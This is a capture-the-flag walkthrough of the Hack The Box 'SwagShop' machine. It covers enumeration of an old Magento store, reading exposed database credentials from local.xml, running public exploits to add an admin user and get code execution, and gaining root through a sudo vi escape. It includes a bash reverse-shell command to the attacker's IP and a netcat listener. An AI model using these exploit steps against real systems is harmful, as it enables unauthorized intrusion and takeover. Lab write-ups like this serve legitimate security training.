 # SwagShop
```
Difficulty: Easy
Operating System: Linux
Hints: True
```
## Initial Enumeration
Running nmap scan (TCP) on the target shows the following results:
```
Nmap scan report for 10.10.10.140
Host is up (0.27s latency).
Not shown: 987 closed tcp ports (reset)
PORT      STATE    SERVICE       VERSION
22/tcp    open     ssh           OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 b6:55:2b:d2:4e:8f:a3:81:72:61:37:9a:12:f6:24:ec (RSA)
|   256 2e:30:00:7a:92:f0:89:30:59:c1:77:56:ad:51:c0:ba (ECDSA)
|_  256 4c:50:d5:f2:70:c5:fd:c4:b2:f0:bc:42:20:32:64:34 (ED25519)
80/tcp    open     http          Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Did not follow redirect to http://swagshop.htb/
|_http-server-header: Apache/2.4.18 (Ubuntu)
311/tcp   filtered asip-webadmin
720/tcp   filtered unknown
1094/tcp  filtered rootd
2144/tcp  filtered lv-ffx
3325/tcp  filtered active-net
3800/tcp  filtered pwgpsi
5054/tcp  filtered rlm-admin
5550/tcp  filtered sdadmind
5633/tcp  filtered beorl
7019/tcp  filtered doceri-ctl
25734/tcp filtered unknown
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
As we can see we have only port 22 and 80 opened, from the SSH service we can guess that the running os is Ubuntu xenial.  
Now, let's dig into port 80.  
As we hit ```http://swagshop.htb/``` we can notice a magento banner and a copyright version from 2014.  
So we can guess that the running magento version is old.  
First thing first let's enumerate directories using gobuster.  
```
/media                (Status: 301) [Size: 312] [--> http://10.10.10.140/media/]
/includes             (Status: 301) [Size: 315] [--> http://10.10.10.140/includes/]
/lib                  (Status: 301) [Size: 310] [--> http://10.10.10.140/lib/]
/app                  (Status: 301) [Size: 310] [--> http://10.10.10.140/app/]
/js                   (Status: 301) [Size: 309] [--> http://10.10.10.140/js/]
/shell                (Status: 301) [Size: 312] [--> http://10.10.10.140/shell/]
/skin                 (Status: 301) [Size: 311] [--> http://10.10.10.140/skin/]
/var                  (Status: 301) [Size: 310] [--> http://10.10.10.140/var/]
/errors               (Status: 301) [Size: 313] [--> http://10.10.10.140/errors/]
/mage                 (Status: 200) [Size: 1319]
/server-status        (Status: 403) [Size: 300]
```
Poking around on the site we can notice that a strange redirection is happening, in fact when we browse to different site locations we can see that before the directory name we have ```/index.php/``` prepend.  
Now, let's move forward and run magescan against the target.  
After running magescan, we can notice the version of magento.  
Let's keep this in mind for later.  
```
+-----------+------------------+                                                                                                                                                                                                             
| Parameter | Value            |                                                                                                                                                                                                             
+-----------+------------------+                                                                                                                                                                                                             
| Edition   | Community        |                                                                                                                                                                                                             
| Version   | 1.9.0.0, 1.9.0.1 |                                                                                                                                                                                                             
+-----------+------------------+   
```
In the magescan output, we can notice also that a security check fails.  
in fact we are able to read the following file:  
```
[root@kali SwagShop ]$ php /opt/magescan/magescan.phar scan:all swagshop.htb
[... SNIP ...]
| app/etc/local.xml                            | 200           | Fail   |
[... SNIP ...]
```
As we can see, when we open this file we get possible confidential information, possibly, db credentials and connection information:
```
<connection>
  <host>localhost</host>
  <username>root</username>
  <password>fMVWh7bDHpgZkyfqQXreTjU9</password>
  <dbname>swagshop</dbname>
  <initStatements>SET NAMES utf8</initStatements>
  <model>mysql4</model>
  <type>pdo_mysql</type>
  <pdoType></pdoType>
  <active>1</active>
</connection>
```
Now that we have the version let's look for publicly available exploits:  
```
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                                             |  Path
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
eBay Magento 1.9.2.1 - PHP FPM XML eXternal Entity Injection                                                                                                                                               | php/webapps/38573.txt
eBay Magento CE 1.9.2.1 - Unrestricted Cron Script (Code Execution / Denial of Service)                                                                                                                    | php/webapps/38651.txt
Magento 1.2 - '/app/code/core/Mage/Adminhtml/controllers/IndexController.php?email' Cross-Site Scripting                                                                                                   | php/webapps/32809.txt
Magento 1.2 - '/app/code/core/Mage/Admin/Model/Session.php?login['Username']' Cross-Site Scripting                                                                                                         | php/webapps/32808.txt
Magento 1.2 - 'downloader/index.php' Cross-Site Scripting                                                                                                                                                  | php/webapps/32810.txt
Magento < 2.0.6 - Arbitrary Unserialize / Arbitrary Write File                                                                                                                                             | php/webapps/39838.php
Magento CE < 1.9.0.1 - (Authenticated) Remote Code Execution                                                                                                                                               | php/webapps/37811.py
Magento eCommerce - Local File Disclosure                                                                                                                                                                  | php/webapps/19793.txt
Magento eCommerce - Remote Code Execution                                                                                                                                                                  | xml/webapps/37977.py
Magento Server MAGMI Plugin 0.7.17a - Remote File Inclusion                                                                                                                                                | php/webapps/35052.txt
Magento Server MAGMI Plugin - Multiple Vulnerabilities                                                                                                                                                     | php/webapps/35996.txt
Magento WooCommerce CardGate Payment Gateway 2.0.30 - Payment Process Bypass                                                                                                                               | php/webapps/48135.php
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```
After examining all the available exploits compatible with our version, we can try to use ```xml/webapps/37977.py```.  
using this exploit we can create a user and then we can try to use an authenticated exploit and leverage higher privileges.  

## User
Since we found a possible exploit to inject a user into the system, let's try to tune it and run.  
first we need to edit a couple of lines, for example the target (due to previously discovered redirection rule). look at the diffs below:  
```
38c38
< target_url = target + "/index.php/admin/Cms_Wysiwyg/directive/index/"
---
> target_url = target + "/admin/Cms_Wysiwyg/directive/index/"
```
and also let's change the default username:
```
49c49
< query = q.replace("\n", "").format(username="b0d", password="forme")
---
> query = q.replace("\n", "").format(username="forme", password="forme")
```
Now if we try to login into ```http://swagshop.htb/index.php/admin/``` with credentials b0d:forme, we can login as admin.  
now that we have creds, we can try the authenticated RCE exploit and use ```php/webapps/37811.py```.  
To tune this exploit we can use the following parameters:  
```
# Command-line args
target = 'http://swagshop.htb/index.php/admin'
arg = 'bash -c "bash -i >& /dev/tcp/10.10.14.11/9001 0>&1"'

# Config.
username = 'b0d'
password = 'forme'
php_function = 'system'  # Note: we can only pass 1 argument to the function
install_date = 'Wed, 08 May 2019 07:23:09 +0000'  # This needs to be the exact date from /app/etc/local.xml publicly available (magescan)
```
Make this exploit work is a little bit more challenging, as we need to deal with encoding issues and type casting.  
We can help ourselves using [pdb](https://docs.python.org/3/library/pdb.html).  
We just need to ```import pdb``` and set preakpoints with ```pdb.set_trace()```.  
As always intercept exploit requests using burp proxy will help in understand why the exploit gets stuck.  
After we debug the exploit and tune it properly, we can run it, listen on our local port, wait for the shell to gets returned:
```
root@kali:~/Documents/HTB/Boxes/SwagShop# nc -lvnp 9002
listening on [any] 9002 ...
connect to [10.10.14.11] from (UNKNOWN) [10.10.10.140] 45660
bash: cannot set terminal process group (1391): Inappropriate ioctl for device
bash: no job control in this shell
www-data@swagshop:/var/www/html$
```

## Root
After we get a shell, if we run ```sudo -l``` we can see that we have a quite obvious privilege escalation path.  
Anyway let's use common practices and spot this running linpeas.sh:  
```
╔══════════╣ Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d                                                                                                                                                                            
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid                                                                                                                                                                  
Matching Defaults entries for www-data on swagshop:                                                                                                                                                                                          
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin                                                                                                                        

User www-data may run the following commands on swagshop:                                                                                                                                                                                    
    (root) NOPASSWD: /usr/bin/vi /var/www/html/*

```
Now, we can just:
```
www-data@swagshop:/var/www/html$ sudo vi /var/www/html/test
```
and type:
```
:!/bin/bash
```
and we got root.
```
www-data@swagshop:/var/www/html$ sudo vi /var/www/html/test
root@swagshop:/var/www/html#
```
